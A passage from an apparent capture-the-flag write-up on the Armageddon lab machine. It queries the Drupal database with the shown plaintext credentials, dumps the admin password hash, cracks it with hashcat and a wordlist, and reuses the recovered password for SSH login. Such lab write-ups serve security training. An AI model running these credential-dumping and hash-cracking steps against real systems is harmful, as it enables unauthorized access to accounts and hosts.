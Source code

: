     );
    

Everything else looks default.

#### Database

Because my shell is a not in a PTY, I’ll have to run DB commands from the
command line. Drupal creates a bunch of tables:

    
    
    bash-4.2$ mysql -e 'show tables;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
    Tables_in_drupal
    actions
    authmap
    batch
    block
    ...[snip]...
    users
    users_roles
    variable
    watchdog
    

I’m immediately interested in `users`.

    
    
    bash-4.2$ mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
    uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
    0                                               NULL    0       0       0       0       NULL            0               NULL
    1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London              0       admin@armageddon.eu     a:1:{s:7:"overlay";i:1;}
    

There’s a hash for brucetherealadmin.

### Hashcat

That hash matches the format for Drupal 7 on the [example hashes
page](https://hashcat.net/wiki/doku.php?id=example_hashes). Hashcat will crack
it pretty quickly with `hashcat -m 7900 brucetherealadmin-hash
/usr/share/wordlists/rockyou.txt` to find the password “booboo”.

### SSH

This password works for SSH access:

    
    
    oxdf@parrot$ sshpass -p booboo ssh brucetherealadmin@10.10.10.233
    Warning: Permanently added '10.10.10.233' (ECDSA) to the list of known hosts.
    Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.7
    [brucetherealadmin@armageddon ~]$ 
    